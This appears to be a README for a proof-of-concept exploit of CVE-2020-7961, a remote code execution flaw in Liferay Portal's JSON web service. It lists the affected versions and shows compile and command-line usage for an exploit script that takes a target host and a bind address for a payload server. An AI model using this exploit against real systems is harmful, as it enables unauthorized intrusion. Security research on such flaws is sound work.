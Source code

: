 # CVE-2020-7961 Liferay Portal JSON Web Service RCE

影响版本：  
- Liferay Portal 6.1.X  
- Liferay Portal 6.2.X  
- Liferay Portal 7.0.X  
- Liferay Portal 7.1.X  
- Liferay Portal 7.2.X  

exp
```
javac LifExp.java

poc.py -h

  -t TARGET, --target-host TARGET
                        target host:port
  -u API_URL, --api-url API_URL
                        path to jsonws. Default: /api/jsonws
  -p BIND_PORT, --bind-port BIND_PORT
                        HTTP server bind port. Default 9091
  -l BIND_IP, --bind-ip BIND_IP
                        HTTP server bind IP. Default 127.0.0.1. It can't be
                        0.0.0.0
```

[@mzer0one](https://github.com/mzer0one/CVE-2020-7961-POC)